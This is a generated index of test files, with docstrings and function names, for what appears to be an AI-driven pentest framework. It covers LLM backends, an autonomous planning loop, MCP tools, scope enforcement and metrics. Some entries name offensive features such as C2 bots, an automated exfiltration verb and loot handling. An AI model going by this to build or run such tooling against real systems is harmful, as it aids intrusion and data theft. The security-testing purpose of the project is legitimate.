- `test_normalize_falls_back_to_auto_on_empty` (line 80) `def test_normalize_falls_back_to_auto_on_empty(self)`
- `test_llm_client_exposes_public_api` (line 87) `def test_llm_client_exposes_public_api(self)`
- `test_llm_client_class_methods_present` (line 92) `def test_llm_client_class_methods_present(self)`
- `test_ai_fallback_exposes_public_api` (line 97) `def test_ai_fallback_exposes_public_api(self)`
- `test_ai_model_exposes_all_backends` (line 102) `def test_ai_model_exposes_all_backends(self)`
- `test_ai_fallback_reads_factory_constants` (line 107) `def test_ai_fallback_reads_factory_constants(self)`
- `test_metadata_helpers_exposed` (line 115) `def test_metadata_helpers_exposed(self)`
- `test_default_models_match_constants` (line 125) `def test_default_models_match_constants(self)`
- `test_model_config_keys_match_constants` (line 135) `def test_model_config_keys_match_constants(self)`
- `test_api_key_slots` (line 144) `def test_api_key_slots(self)`
- `test_requires_api_key_only_for_cloud` (line 153) `def test_requires_api_key_only_for_cloud(self)`
- `test_unknown_backend_rejected` (line 159) `def test_unknown_backend_rejected(self)`

#### `test_llm_legacy_isolation.py`
**Path:** `tests/test_llm_legacy_isolation.py`
**File Doc:** *Watchdog: core must not depend on the retired legacy Groq LLM scripts.  Encodes the consolidation contract — after the Groq ``process_prompt_*`` family moved into ``modules.llm_prompts`` / ``modules.llm_adapter``, no module under the core source tree may import ``modules.legacy.lazygptcli`` or ``modules.legacy.lazygptcli_unified``. Only the standalone C2 bots (``slack_c2_bot``, ``telegram_c2``, ``discord_c2``) may reference them, and they are out of the core tree.*

**Classes:**
- `TestNoLegacyGroqImportInCore` (line 61) `class TestNoLegacyGroqImportInCore`

**Functions:**
- `_core_source_files` (line 33) `def _core_source_files()`
- `_imported_targets` (line 47) `def _imported_targets(node)`

**Methods:**
- `test_no_core_file_imports_legacy_groq` (line 62) `def test_no_core_file_imports_legacy_groq(self)`

#### `test_llm_prompts.py`
**Path:** `tests/test_llm_prompts.py`
**File Doc:** *Contract tests for :mod:`modules.llm_prompts`.  Verifies the canonical prompt-template and knowledge-base extraction: pure template rendering, context loading, KB CRUD/relevance, truncation and the stable template registry. No network or vendor SDK is exercised.*

**Classes:**
- `TestTruncateMessage` (line 39) `class TestTruncateMessage`
- `TestKnowledgeStore` (line 53) `class TestKnowledgeStore`
- `TestConfig` (line 83) `class TestConfig`
- `TestTemplates` (line 129) `class TestTemplates`
- `TestRegistryIntegrity` (line 157) `class TestRegistryIntegrity`

**Functions:**
- `_write_json` (line 23) `def _write_json(path, payload)`
- `_config` (line 29) `def _config(tmp_path)`

**Methods:**
- `test_short_message_returned_unchanged` (line 40) `def test_short_message_returned_unchanged(self)`
- `test_long_message_truncated_with_ellipsis` (line 43) `def test_long_message_truncated_with_ellipsis(self)`
- `test_boundary_length_kept` (line 48) `def test_boundary_length_kept(self)`
- `test_load_missing_file_returns_empty` (line 54) `def test_load_missing_file_returns_empty(self, tmp_path)`
- `test_load_malformed_file_returns_empty` (line 58) `def test_load_malformed_file_returns_empty(self, tmp_path)`
- `test_add_and_load_roundtrip` (line 63) `def test_add_and_load_roundtrip(self, tmp_path)`
- `test_relevant_filters_on_keyword` (line 69) `def test_relevant_filters_on_keyword(self, tmp_path)`
- `test_relevant_limits_results` (line 76) `def test_relevant_limits_results(self, tmp_path)`
- `test_from_defaults_points_under_module_parent` (line 84) `def test_from_defaults_points_under_module_parent(self, tmp_path, monkeypatch)`
- `test_knowledge_base_path_resolves_names` (line 90) `def test_knowledge_base_path_resolves_names(self, tmp_path)`
- `test_payload_context_defaults_to_empty` (line 94) `def test_payload_context_defaults_to_empty(self, tmp_path)`
- `test_payload_context_reads_values` (line 109) `def test_payload_context_reads_values(self, tmp_path)`
- `test_event_tool_output_empty_when_no_match` (line 116) `def test_event_tool_output_empty_when_no_match(self, tmp_path)`
- `test_event_tool_output_reads_file` (line 121) `def test_event_tool_output_reads_file(self, tmp_path)`
- `test_render_includes_operator_prompt` (line 131) `def test_render_includes_operator_prompt(self, tmp_path, name)`
- `test_render_embeds_knowledge_tail` (line 137) `def test_render_embeds_knowledge_tail(self, tmp_path, name)`
- `test_general_embeds_payload_rhost` (line 144) `def test_general_embeds_payload_rhost(self, tmp_path)`
- `test_vuln_embeds_payload_rhost` (line 150) `def test_vuln_embeds_payload_rhost(self, tmp_path)`
- `test_kb_domains_are_valid_file_names` (line 158) `def test_kb_domains_are_valid_file_names(self)`
- `test_all_templates_have_registered_kb_domain` (line 164) `def test_all_templates_have_registered_kb_domain(self)`

#### `test_logging_config.py`
**Path:** `tests/test_logging_config.py`
**File Doc:** *Tests for ``modules.logging_config`` — resilient file logging.*

**Classes:**
- `TestResilientRotatingFileHandler` (line 21) `class TestResilientRotatingFileHandler`

**Functions:**
- `_make_logger` (line 13) `def _make_logger(handler)`

**Methods:**
- `test_writes_normally_when_dir_writable` (line 22) `def test_writes_normally_when_dir_writable(self, tmp_path)`
- `test_detaches_silently_when_file_unwritable` (line 32) `def test_detaches_silently_when_file_unwritable(self, tmp_path, capsys)`
- `test_rotating_file_is_exposed` (line 47) `def test_rotating_file_is_exposed(self)`

#### `test_loop_ai_bridge.py`
**Path:** `tests/test_loop_ai_bridge.py`
**File Doc:** *Loop AI-stack bridge: event bus, oracle, MoE/RL and SWAN wiring.  The bridge is exercised with stubbed dependencies so no expert, trainer or oracle file is touched; every stage is enabled explicitly per test.*

**Classes:**
- `_Bus` (line 38) `class _Bus`
- `_Oracle` (line 63) `class _Oracle`

**Functions:**
- `store` (line 15) `def store(tmp_path, monkeypatch)` - *Sandbox the lazy store for every test in this module.*
- `bridge` (line 25) `def bridge(monkeypatch)` - *Bridge with every stage enabled and singletons reset.*
- `test_publish_loop_event_skips_stream_kinds` (line 34) `def test_publish_loop_event_skips_stream_kinds(bridge, monkeypatch)` - *Stream noise never reaches the bus; meaningful kinds are categorized.*
- `test_activity_log_publishes_to_bridge` (line 52) `def test_activity_log_publishes_to_bridge(store, bridge, monkeypatch)` - *Every activity line reaches the bridge (which gates and maps it).*
- `test_annotate_detection_uses_oracle` (line 62) `def test_annotate_detection_uses_oracle(bridge, monkeypatch)`
- `test_worker_annotates_detection_and_records_outcome` (line 74) `def test_worker_annotates_detection_and_records_outcome(store, bridge, monkeypatch)` - *Guard steps carry oracle risk and feed MoE/RL with the outcome.*
- `test_llm_pool_prefers_moe_expert_and_records_outcome` (line 108) `def test_llm_pool_prefers_moe_expert_and_records_outcome(store, bridge, monkeypatch)` - *The router's expert runs first and its outcome is fed back.*
- `test_planner_uses_swan_when_available` (line 133) `def test_planner_uses_swan_when_available(store, bridge, monkeypatch)` - *SWAN supplies the planning reply when the stage is on.*
- `_complete` (line 120) `def _complete(model, prompt, max_tokens)`
- `_swan` (line 140) `def _swan(prompt, task_type, phase, timeout)`

**Methods:**
- `publish` (line 39) `def publish(self, event)`
- `assess` (line 64) `def assess(self, tool, command, category)`

#### `test_loop_auto_orchestrator.py`
**Path:** `tests/test_loop_auto_orchestrator.py`
**File Doc:** *Loop orchestrates every auto verb plus addon/tool triggers.*

**Classes:**
- `_Shell` (line 59) `class _Shell`
- `_Shell` (line 131) `class _Shell`

**Functions:**
- `test_exfil_auto_registered_as_verb` (line 6) `def test_exfil_auto_registered_as_verb()`
- `test_service_tokens_split_and_alias` (line 15) `def test_service_tokens_split_and_alias()`
- `test_addon_hits_rank_specific_before_generic` (line 22) `def test_addon_hits_rank_specific_before_generic()`
- `test_propose_addon_intents_shape_and_tool_collapse` (line 31) `def test_propose_addon_intents_shape_and_tool_collapse()`
- `test_steps_for_lazy_addon_routes_to_command` (line 40) `def test_steps_for_lazy_addon_routes_to_command()`
- `test_worker_routes_verbs_via_bound_shell` (line 49) `def test_worker_routes_verbs_via_bound_shell(tmp_path, monkeypatch)`
- `test_worker_without_shell_reports_honestly` (line 85) `def test_worker_without_shell_reports_honestly(tmp_path, monkeypatch)`
- `test_execute_streaming_streams_and_captures` (line 109) `def test_execute_streaming_streams_and_captures()` - *BDD: bash output arrives line by line and is fully captured.*
- `test_execute_streaming_timeout_reports` (line 119) `def test_execute_streaming_timeout_reports()` - *BDD: a hung command is killed and reported as TIMEOUT.*
- `test_execute_shell_verb_forwards_output` (line 127) `def test_execute_shell_verb_forwards_output()` - *BDD: shell verbs tee captured output to the live observer.*
- `test_autonomous_mode_suppresses_and_restores_input` (line 141) `def test_autonomous_mode_suppresses_and_restores_input(monkeypatch)` - *BDD: loop mode answers prompts with '' and restores input after.*
- `test_lazy_addon_command_registered` (line 153) `def test_lazy_addon_command_registered()`
- `test_worker_skips_missing_binary_and_records_gap` (line 163) `def test_worker_skips_missing_binary_and_records_gap(tmp_path, monkeypatch)` - *A probe whose binary is absent is skipped and explained as a fact.*
- `test_service_trigger_fires_with_addon_hits` (line 194) `def test_service_trigger_fires_with_addon_hits(tmp_path, monkeypatch)` - *New service assets wake the orchestrator with matched addon names.*

**Methods:**
- `onecmd` (line 60) `def onecmd(self, command)`
- `onecmd_plus_hooks` (line 132) `def onecmd_plus_hooks(self, command)`

#### `test_loop_broadcast.py`
**Path:** `tests/test_loop_broadcast.py`
**File Doc:** *Broadcast board timeline regression tests (lazy 0.3.12 parity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_broadcast_rows_carry_neighbours_and_assets` (line 15) `def test_broadcast_rows_carry_neighbours_and_assets(tmp_path, monkeypatch)` - *BDD: timeline rows expand without extra requests.*
- `test_broadcast_search_id_and_kind_filter` (line 36) `def test_broadcast_search_id_and_kind_filter(tmp_path, monkeypatch)` - *BDD: search supports #id and kind filter.*

#### `test_loop_cold_overview.py`
**Path:** `tests/test_loop_cold_overview.py`
**File Doc:** *Cold debounce + planner overview parity (lazy 0.3.8 coldgraph).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `_old_facts` (line 15) `def _old_facts(graph, count, prefix)`
- `test_compact_debounce_keeps_fresh_hot` (line 28) `def test_compact_debounce_keeps_fresh_hot(tmp_path, monkeypatch)` - *BDD: fresh facts survive the anti-flap window.*
- `test_compact_folds_stale_facts` (line 41) `def test_compact_folds_stale_facts(tmp_path, monkeypatch)` - *BDD: untouched facts fold into digests after the window.*
- `test_planner_round_folds_minor_window` (line 56) `def test_planner_round_folds_minor_window(tmp_path, monkeypatch)` - *BDD: 20-50 uncovered cold nodes fold on a round, no no-op window.*
- `test_graph_overview_carries_findings_and_done_totals` (line 77) `def test_graph_overview_carries_findings_and_done_totals(tmp_path, monkeypatch)` - *BDD: planner sees every finding plus done-intent totals inline.*

#### `test_loop_force_graph.py`
**Path:** `tests/test_loop_force_graph.py`
**File Doc:** *Loop ForceGraph context regression tests (lazy 0.3.12 fidelity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_loop_graph_is_forcegraph_ready` (line 15) `def test_loop_graph_is_forcegraph_ready(tmp_path, monkeypatch)` - *BDD: /api/loop_graph payload renders directly in ForceGraph.*
- `test_graph_context_surfaces_hubs_and_next` (line 32) `def test_graph_context_surfaces_hubs_and_next(tmp_path, monkeypatch)` - *BDD: planner sees hubs, islands and heat-ordered probes.*
- `test_planner_force_ranks_connected_surface` (line 53) `def test_planner_force_ranks_connected_surface(tmp_path, monkeypatch)` - *SDD: candidates on hot graph surface outrank id-order probes.*

#### `test_loop_guard_audit.py`
**Path:** `tests/test_loop_guard_audit.py`
**File Doc:** *Guard audit filters + tool_use_id source jump (lazy 0.3.11/0.3.12 parity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_check_mints_tool_use_id` (line 15) `def test_check_mints_tool_use_id(tmp_path, monkeypatch)` - *BDD: every tool call carries a stable id for source jump.*
- `test_audit_filters_action_source_query` (line 31) `def test_audit_filters_action_source_query(tmp_path, monkeypatch)` - *BDD: approval records filter by status and source.*
- `test_lookup_jumps_to_execution` (line 48) `def test_lookup_jumps_to_execution(tmp_path, monkeypatch)` - *BDD: approval source jumps to the exact tool execution.*

#### `test_loop_intent_delete.py`
**Path:** `tests/test_loop_intent_delete.py`
**File Doc:** *Intent delete modes regression tests (lazy 0.3.12 parity).*

**Functions:**
- `_patched_engine` (line 8) `def _patched_engine(tmp_path, monkeypatch)`
- `test_soft_delete_keeps_outputs_and_notifies` (line 17) `def test_soft_delete_keeps_outputs_and_notifies(tmp_path, monkeypatch)` - *BDD: fake delete keeps node, outputs and lineage with a reason.*
- `test_soft_delete_requires_reason` (line 37) `def test_soft_delete_requires_reason(tmp_path, monkeypatch)` - *BDD: deletion without a reason is rejected.*
- `test_hard_delete_removes_exclusive_keeps_shared` (line 46) `def test_hard_delete_removes_exclusive_keeps_shared(tmp_path, monkeypatch)` - *BDD: true delete cascades exclusive descendants, keeps shared/goals.*

#### `test_loop_llm_resilience.py`
**Path:** `tests/test_loop_llm_resilience.py`
**File Doc:** *LLM retry layers, wall-clock settle, stall-guard (lazy 0.3.8/0.3.9 parity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_empty_reply_replays_before_failover` (line 15) `def test_empty_reply_replays_before_failover(tmp_path, monkeypatch)` - *BDD: a connected-but-empty model is replayed, not abandoned.*
- `test_empty_budget_exhausted_moves_to_next_member` (line 34) `def test_empty_budget_exhausted_moves_to_next_member(tmp_path, monkeypatch)` - *BDD: empty budget spent on one member, the chain still answers.*
- `test_error_reply_fails_over_instead_of_becoming_content` (line 54) `def test_error_reply_fails_over_instead_of_becoming_content(tmp_path, monkeypatch)` - *BDD: backend error banners are failures, never planner intents.*
- `test_worker_llm_steps_filtered_by_scope_and_tooling` (line 71) `def test_worker_llm_steps_filtered_by_scope_and_tooling(tmp_path, monkeypatch)` - *BDD: pool commands pass scope, binary and deny filters before running.*
- `test_wall_clock_settles_partial_not_hard_kill` (line 95) `def test_wall_clock_settles_partial_not_hard_kill(tmp_path, monkeypatch)` - *BDD: expired deadline stops the work and keeps partial steps.*
- `test_stall_guard_forces_intent_when_nothing_open` (line 114) `def test_stall_guard_forces_intent_when_nothing_open(tmp_path, monkeypatch)` - *BDD: goals unmet plus zero open work always yields a next intent.*
- `test_task_llm_chain_quota_failover` (line 135) `def test_task_llm_chain_quota_failover(tmp_path, monkeypatch)` - *BDD: explicit quota exhaustion rotates the task chain permanently.*
- `test_raw_llm_recording_toggle` (line 169) `def test_raw_llm_recording_toggle(tmp_path, monkeypatch)` - *BDD: raw prompts/replies are recorded only while enabled.*
- `test_llm_context_budget_roundtrip` (line 190) `def test_llm_context_budget_roundtrip(tmp_path, monkeypatch)` - *BDD: prompt context budget is persisted and clamped.*
- `test_planner_uses_bound_task_chain` (line 202) `def test_planner_uses_bound_task_chain(tmp_path, monkeypatch)` - *BDD: a bound task chain drives planner LLM calls, not the global pool.*
- `scripted` (line 23) `def scripted(model, prompt, max_tokens)`
- `first_empty_then_ok` (line 42) `def first_empty_then_ok(model, prompt, max_tokens)`
- `error_then_ok` (line 61) `def error_then_ok(model, prompt, max_tokens)`
- `scripted` (line 79) `def scripted(model, prompt, max_tokens)`
- `scripted` (line 147) `def scripted(model, prompt, max_tokens)`
- `scripted_next` (line 160) `def scripted_next(model, prompt, max_tokens)`
- `scripted` (line 213) `def scripted(model, prompt, max_tokens)`

#### `test_loop_mentions.py`
**Path:** `tests/test_loop_mentions.py`
**File Doc:** *Lazy mentions multi-type search and scroll pagination.*

**Functions:**
- `test_mentions_search_and_cursor` (line 6) `def test_mentions_search_and_cursor(tmp_path, monkeypatch)`
- `test_mentions_parse_caps_and_trusts_ids` (line 16) `def test_mentions_parse_caps_and_trusts_ids()`

#### `test_loop_progress.py`
**Path:** `tests/test_loop_progress.py`
**File Doc:** *Loop milestone panel: inferred stage states stay honest.*

**Functions:**
- `_overview` (line 20) `def _overview()` - *Minimal overview dict as ExplorationGraph.overview returns it.*
- `test_chain_has_fourteen_stages` (line 28) `def test_chain_has_fourteen_stages()` - *Milestones mirror the orchestrator chain one to one.*
- `test_fresh_task_shows_first_stage_current` (line 34) `def test_fresh_task_shows_first_stage_current()` - *Empty overview: task done (exists), scope current, rest pending.*
- `test_progress_advances_with_evidence` (line 44) `def test_progress_advances_with_evidence()` - *Facts flip enrich/worker/guard/traffic; findings flip the finding leg.*
- `test_finished_task_all_green` (line 58) `def test_finished_task_all_green()` - *Done status closes compact and report too.*
- `test_snapshot_counts_intent_states` (line 69) `def test_snapshot_counts_intent_states()` - *Intent buckets split pending/open/done for the footer.*
- `test_panel_renders_without_live` (line 79) `def test_panel_renders_without_live()` - *Panel builds for empty and full snapshots (no terminal needed).*
- `test_render_contains_no_markup_strings` (line 88) `def test_render_contains_no_markup_strings()` - *Cells are Text objects: literal [green] tags can never leak.*
- `test_line_mode_prints_only_on_stage_change` (line 104) `def test_line_mode_prints_only_on_stage_change(capsys)` - *Non-terminal sinks get one line per milestone, never full redraws.*
- `test_sanitize_line_strips_ansi_and_cr` (line 126) `def test_sanitize_line_strips_ansi_and_cr()` - *Transcript lines lose escape codes and carriage returns.*
- `test_sanitize_line_keeps_ansi_when_asked` (line 134) `def test_sanitize_line_keeps_ansi_when_asked()` - *Live worker output keeps SGR colors for the transcript.*

#### `test_loop_scope_traffic_evidence.py`
**Path:** `tests/test_loop_scope_traffic_evidence.py`
**File Doc:** *Scope ownership, port-aware traffic search, role-based evidences (lazy parity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_scope_covers_by_ownership_not_substring` (line 15) `def test_scope_covers_by_ownership_not_substring(tmp_path, monkeypatch)` - *BDD: root domain owns subdomains/services, decoys stay out.*
- `test_scope_cidr_covers_url_embedded_ip` (line 29) `def test_scope_cidr_covers_url_embedded_ip(tmp_path, monkeypatch)` - *BDD: CIDR scope hits direct URLs on in-range hosts.*
- `test_scope_ip_covers_any_port_url` (line 41) `def test_scope_ip_covers_any_port_url(tmp_path, monkeypatch)` - *BDD: ip scope owns the host on every port.*
- `test_worker_scope_enforcement_cidr` (line 54) `def test_worker_scope_enforcement_cidr(tmp_path, monkeypatch)` - *BDD: a CIDR scope admits in-range targets and blocks the rest.*
- `test_traffic_search_host_port_aware` (line 71) `def test_traffic_search_host_port_aware(tmp_path, monkeypatch)` - *BDD: same-host rows on other ports never mix into the result.*
- `test_finding_evidence_roles_notes_order` (line 88) `def test_finding_evidence_roles_notes_order(tmp_path, monkeypatch)` - *BDD: findings bind many evidences with roles, notes and order.*

#### `test_loop_spawn_side.py`
**Path:** `tests/test_loop_spawn_side.py`
**File Doc:** *Multi-session chat, persistent side questions, spawn inheritance (lazy 0.3.9).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `test_chat_sessions_stay_independent` (line 15) `def test_chat_sessions_stay_independent(tmp_path, monkeypatch)` - *BDD: one task holds many dialogue sessions that never interleave.*
- `test_side_questions_persist_and_recall` (line 36) `def test_side_questions_persist_and_recall(tmp_path, monkeypatch)` - *BDD: side threads survive restarts and list per session.*
- `test_spawn_inherits_scope_and_findings_read_only` (line 53) `def test_spawn_inherits_scope_and_findings_read_only(tmp_path, monkeypatch)` - *BDD: child task reads parent scope/findings, parents stay intact.*

#### `test_loop_store_race.py`
**Path:** `tests/test_loop_store_race.py`
**File Doc:** *Store file writes stay atomic under parallel workers (race regression).*

**Functions:**
- `test_save_json_survives_parallel_writers` (line 8) `def test_save_json_survives_parallel_writers(tmp_path, monkeypatch)` - *BDD: concurrent round workers never crash on a shared temp file.*
- `writer` (line 16) `def writer(worker)`

#### `test_loop_supervision.py`
**Path:** `tests/test_loop_supervision.py`
**File Doc:** *Supervision upgrades: repetition watchdog, stack priors, prompt masking.*

**Classes:**
- `_DeadPool` (line 25) `class _DeadPool` - *LLM pool double with no members (deterministic, no network).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)` - *Return an engine whose stores live entirely under tmp_path.*
- `_isolate_intel` (line 16) `def _isolate_intel(tmp_path, monkeypatch)` - *Redirect intel routing log and priors under tmp_path.*
- `_kill_llm` (line 37) `def _kill_llm(monkeypatch)` - *Neutralize every pool the worker path may consult.*
- `test_repetition_watchdog_settles` (line 46) `def test_repetition_watchdog_settles(tmp_path, monkeypatch)` - *BDD: three identical consecutive steps settle instead of looping.*
- `test_stack_priors_prefer_same_stack` (line 75) `def test_stack_priors_prefer_same_stack(tmp_path, monkeypatch)` - *BDD: repeat stacks learn faster, unseen stacks keep default order.*
- `test_prompt_context_masks_configured_only` (line 99) `def test_prompt_context_masks_configured_only(tmp_path, monkeypatch)` - *BDD: payload secrets never reach cloud backends, loot still does.*

**Methods:**
- `members` (line 28) `def members(self)` - *Return no members so heuristic paths run.*
- `complete` (line 32) `def complete(self)` - *Return empty reply.*

#### `test_loop_worker_traces.py`
**Path:** `tests/test_loop_worker_traces.py`
**File Doc:** *Worker cross-work trace tools (lazy 0.3.10 parity).*

**Functions:**
- `_patched_engine` (line 6) `def _patched_engine(tmp_path, monkeypatch)`
- `_seed_two_works` (line 15) `def _seed_two_works(engine, task_id)`
- `test_search_all_spans_works_without_intent` (line 27) `def test_search_all_spans_works_without_intent(tmp_path, monkeypatch)` - *BDD: keyword search hits every work without knowing intent ids.*
- `test_trace_steps_and_single_step` (line 40) `def test_trace_steps_and_single_step(tmp_path, monkeypatch)` - *BDD: lock onto a work, list the step flow, fetch one step in full.*
- `test_worker_lane_binds_node_detail` (line 57) `def test_worker_lane_binds_node_detail(tmp_path, monkeypatch)` - *BDD: worker keeps node_detail for cross-work lookups.*
- `test_add_hint_emits_explicit_planner_trigger` (line 65) `def test_add_hint_emits_explicit_planner_trigger(tmp_path, monkeypatch)` - *BDD: a new hint fires an explicit planner trigger round.*
- `test_worker_bash_unbound_blocks_without_execution` (line 81) `def test_worker_bash_unbound_blocks_without_execution(tmp_path, monkeypatch)` - *BDD: unbinding bash from the worker lane stops probes cold.*
- `test_planner_intent_unbound_emits_nothing` (line 100) `def test_planner_intent_unbound_emits_nothing(tmp_path, monkeypatch)` - *BDD: unbinding intent from the planner lane silences planning.*

#### `test_mcp_dispatch.py`
**Path:** `tests/test_mcp_dispatch.py`
**File Doc:** *call_tool dispatches through the handler registry.  SDD contract: ``_TOOL_HANDLERS`` (populated by ``@register_handler``) is checked before the legacy ``if/elif`` fallback inside ``call_tool``. No ``if/elif`` branch may duplicate a registered name (such branches are unreachable dead code), and migrated handlers must stay registered under their tool names.*

**Classes:**
- `TestRegistryDispatch` (line 51) `class TestRegistryDispatch`

**Functions:**
- `_registered` (line 23) `def _registered()`
- `_fallback_branches` (line 40) `def _fallback_branches()`

**Methods:**
- `test_no_dead_duplicate_branches` (line 52) `def test_no_dead_duplicate_branches(self)`
- `test_migrated_handlers_registered` (line 56) `def test_migrated_handlers_registered(self)`
- `test_migrated_handlers_absent_from_fallback` (line 61) `def test_migrated_handlers_absent_from_fallback(self)`

#### `test_mcp_improvements.py`
**Path:** `tests/test_mcp_improvements.py`
**File Doc:** *Tests for the high/medium/low impact MCP improvements.  Covers the pure-function helper module (skills.lazyown_mcp_helpers) and the wiring inside skills.lazyown_mcp: - is_likely_credential / audit_tasks - evidence_freshness - build_target_context (host + port filters, provenance, freshness) - evidence_grep with scope filters - preflight_command (binary present, OS match, would_duplicate) - JobStore async submit + status - take_snapshot / diff_snapshot lifecycle - needs_confirmation gate  The MCP server itself is large and is exercised through small focused integration tests for the new tool handlers (target_context, tasks_cleanup, evidence_grep, session_diff) that monkey-patch SESSIONS_DIR onto a tmp_path.*

**Functions:**
- `test_is_likely_credential_classifies` (line 74) `def test_is_likely_credential_classifies(value, expect_real, expect_reason)`
- `test_is_likely_credential_handles_non_string` (line 84) `def test_is_likely_credential_handles_non_string()`
- `test_parse_task_value_complete` (line 92) `def test_parse_task_value_complete()`
- `test_parse_task_value_truncated` (line 103) `def test_parse_task_value_truncated()`
- `test_parse_task_value_no_payload` (line 110) `def test_parse_task_value_no_payload()`
- `test_audit_tasks_drops_timestamps_and_urls` (line 117) `def test_audit_tasks_drops_timestamps_and_urls()`
- `test_audit_tasks_respects_min_confidence` (line 141) `def test_audit_tasks_respects_min_confidence()`
- `test_evidence_freshness_missing` (line 154) `def test_evidence_freshness_missing(tmp_path)`
- `test_evidence_freshness_fresh` (line 160) `def test_evidence_freshness_fresh(tmp_path)`
- `test_evidence_freshness_stale` (line 170) `def test_evidence_freshness_stale(tmp_path)`
- `_seed_sessions` (line 182) `def _seed_sessions(tmp_path)`
- `test_build_target_context_filters_by_port` (line 195) `def test_build_target_context_filters_by_port(tmp_path)`
- `test_build_target_context_no_port_returns_all` (line 218) `def test_build_target_context_no_port_returns_all(tmp_path)`
- `test_evidence_grep_finds_in_loot_scope` (line 227) `def test_evidence_grep_finds_in_loot_scope(tmp_path)`
- `test_evidence_grep_invalid_regex` (line 237) `def test_evidence_grep_invalid_regex(tmp_path)`
- `test_evidence_grep_truncates` (line 244) `def test_evidence_grep_truncates(tmp_path)`
- `test_preflight_detects_duplicate` (line 256) `def test_preflight_detects_duplicate(tmp_path)`
- `test_preflight_flags_missing_payload_keys` (line 270) `def test_preflight_flags_missing_payload_keys(tmp_path)`
- `test_preflight_os_mismatch` (line 281) `def test_preflight_os_mismatch(tmp_path)`
- `test_jobstore_runs_command_and_reports_done` (line 297) `def test_jobstore_runs_command_and_reports_done()`
- `test_jobstore_captures_failure` (line 317) `def test_jobstore_captures_failure()`
- `test_jobstore_unknown_id` (line 335) `def test_jobstore_unknown_id()`
- `test_jobstore_list_orders_newest_first` (line 340) `def test_jobstore_list_orders_newest_first()`
- `test_diff_first_run_reports_first_run` (line 353) `def test_diff_first_run_reports_first_run(tmp_path)`
- `test_diff_picks_up_changes` (line 360) `def test_diff_picks_up_changes(tmp_path)`
- `test_confirmation_required_for_destructive_command` (line 380) `def test_confirmation_required_for_destructive_command()`
- `test_confirmation_skipped_for_benign` (line 385) `def test_confirmation_skipped_for_benign()`
- `test_confirmation_required_for_destructive_tools` (line 389) `def test_confirmation_required_for_destructive_tools()`
- `_fresh_mcp_module` (line 397) `def _fresh_mcp_module(tmp_path)` - *Reload skills.lazyown_mcp pointing at an isolated SESSIONS_DIR.*
- `test_handler_target_context_via_helper` (line 414) `def test_handler_target_context_via_helper(tmp_path)`
- `test_handler_tasks_cleanup_dry_run` (line 421) `def test_handler_tasks_cleanup_dry_run(tmp_path)`
- `test_evidence_grep_handler_ignores_binaries` (line 436) `def test_evidence_grep_handler_ignores_binaries(tmp_path)`
- `runner` (line 300) `def runner(cmd, timeout)`
- `runner` (line 320) `def runner(cmd, timeout)`

#### `test_mcp_lazy.py`
**Path:** `tests/test_mcp_lazy.py`
**File Doc:** *Contract for the unified MCP lazy-import helper.  SDD contract: ``skills/mcp_lazy.ensure_optional`` owns the cache-check / import / fail-closed skeleton. Every ``_ensure_*`` wrapper in ``skills/lazyown_mcp.py`` must delegate to it instead of repeating the skeleton, and the helper must preserve the observable semantics: cached value returned untouched, successful loader binds names and yields True, failing loader yields False without raising.*

**Classes:**
- `TestEnsureOptional` (line 42) `class TestEnsureOptional`
- `TestWrappersDelegate` (line 86) `class TestWrappersDelegate`

**Functions:**
- `loader` (line 47) `def loader(ns)`
- `loader` (line 61) `def loader(ns)`
- `loader` (line 69) `def loader(ns)`
- `loader` (line 78) `def loader(ns)`

**Methods:**
- `test_success_binds_and_caches` (line 43) `def test_success_binds_and_caches(self)`
- `test_cached_value_returned_untouched` (line 58) `def test_cached_value_returned_untouched(self)`
- `test_exception_fails_closed` (line 66) `def test_exception_fails_closed(self)`
- `test_false_loader_with_fallback` (line 75) `def test_false_loader_with_fallback(self)`
- `test_all_wrappers_delegate_to_helper` (line 87) `def test_all_wrappers_delegate_to_helper(self)`

#### `test_mcp_recommender_embed.py`
**Path:** `tests/test_mcp_recommender_embed.py`
**File Doc:** *Contract tests for the MCP sitrep recommender embedding.  SDD contract: ``_sitrep_recommendations`` adapts ``recommender.recommend_and_save`` output (``command``/``confidence``/ ``reason``) into the sitrep shape and never forwards positional arguments into the recommender.*

**Functions:**
- `_load_mcp_module` (line 15) `def _load_mcp_module()` - *Import skills/lazyown_mcp.py reusing the boyscout SDK-stub recipe.*
- `test_maps_recommender_fields` (line 25) `def test_maps_recommender_fields(monkeypatch)`
- `test_never_forwards_positional_arguments` (line 44) `def test_never_forwards_positional_arguments(monkeypatch)`
- `test_returns_error_entry_on_failure` (line 59) `def test_returns_error_entry_on_failure(monkeypatch)`
- `test_reports_unavailable_recommender` (line 71) `def test_reports_unavailable_recommender(monkeypatch)`
- `test_limits_suggestions` (line 81) `def test_limits_suggestions(monkeypatch)`
- `fake_recommend` (line 48) `def fake_recommend()`
- `explode` (line 62) `def explode()`

#### `test_metrics.py`
**Path:** `tests/test_metrics.py`
**File Doc:** *Tests for ``modules/metrics.py``.  Covers the durable telemetry recorder added to surface command duration, success rate, p95 and top failures. The in-memory :class:`MetricsRegistry` used by the C2 stack is also exercised so any future refactor that breaks the existing Prometheus path is caught here.*

**Functions:**
- `_build_recorder` (line 35) `def _build_recorder(tmp_path)` - *Return a recorder writing to *tmp_path* / metrics.jsonl.*
- `test_legacy_registry_inc_and_render` (line 42) `def test_legacy_registry_inc_and_render()` - *The legacy in-memory counter registry keeps its contract.*
- `test_recorder_appends_record_line` (line 57) `def test_recorder_appends_record_line(tmp_path)` - *A single ``record`` call writes one JSONL entry with the duration.*
- `test_recorder_clamps_negative_duration` (line 83) `def test_recorder_clamps_negative_duration(tmp_path)` - *A negative ``duration_ms`` is clamped to zero.*
- `test_summarize_aggregates_by_command` (line 92) `def test_summarize_aggregates_by_command(tmp_path)` - *``summarize`` produces success rate, mean and p95 per command.*
